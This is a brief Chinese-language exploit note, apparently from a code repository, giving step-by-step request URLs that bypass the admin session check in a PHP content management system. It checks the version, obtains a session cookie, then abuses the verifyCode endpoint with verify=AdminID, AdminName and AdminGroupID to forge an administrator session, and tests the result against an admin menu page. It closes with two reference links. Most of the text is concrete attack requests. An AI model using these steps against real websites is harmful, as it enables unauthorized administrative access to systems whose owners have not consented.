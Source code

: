 1.访问 /index.php/base?a=Version 判断版本

2.访问 /index.php/Admin/public/Login 生成一个 PHPSESSID

3.访问下面两条url 绕过session检测

```
/index.php/public/verifyCode?length=2&mode=1&width=22&height=22&verify=AdminID&type=png
/index.php/public/verifyCode?length=2&mode=1&width=22&height=22&verify=AdminName&type=png
```
4.访问 ```/index.php/public/verifyCode?length=2&mode=1&width=22&height=22&verify=AdminGroupID&type=png```

5.访问  ```/index.php/Admin/Public/AdminLeft/MenuTopID/7``` 判断PHPSESSID是否有效

6.参考
```
https://www.aisoutu.com/a/391281
https://www.cnblogs.com/Pan3a/p/14867105.html
```
